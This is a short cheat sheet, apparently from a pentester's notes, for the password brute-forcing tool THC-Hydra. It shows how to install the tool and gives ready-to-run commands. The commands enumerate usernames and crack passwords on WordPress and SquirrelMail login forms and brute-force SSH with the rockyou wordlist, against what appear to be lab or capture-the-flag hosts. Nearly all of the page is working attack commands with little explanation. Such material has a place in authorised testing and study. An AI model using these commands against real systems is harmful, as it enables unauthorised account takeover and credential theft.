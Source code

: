 # Clone
```bash
git clone https://github.com/vanhauser-thc/thc-hydra
```

# Compile
```bash
./configure
make
make install
```

<https://github.com/cytopia/pwncat>

# WordPress (HTTP Form Post)
```bash
hydra -f -l <username> -P /usr/share/wordlists/rockyou.txt <IP> -V http-form-post '/blog/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'

# check for usernames.
hydra -vV -L fsocity.dic.uniq -p wedontcare 172.16.0.3 http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Invalid username' -o wpusers.txt
# check for passwords.
hydra -vV -L wpusers-clean.txt -P fsocity.dic.uniq 172.16.0.3 http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=is incorrect' -o wppasswords.txt
```
<https://linuxconfig.org/test-wordpress-logins-with-hydra-on-kali-linux/>

# SquirrelMail (HTTP Form Post)
```bash
hydra -l <username> -P log1.txt 10.10.34.188 http-post-form '/squirrelmail/src/redirect.php:login_username=milesdyson&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1:Unknown user or password incorrect.'
```

# SSH
```bash
# Bruteforce SSH with a known username and a password list, specifying 4 threads (16 by default).
# -f quits on success.
hydra -f -l <username> -P /usr/share/wordlists/rockyou.txt <IP> -t 4 ssh
```

# References
[thc-hydra](https://github.com/vanhauser-thc/thc-hydra)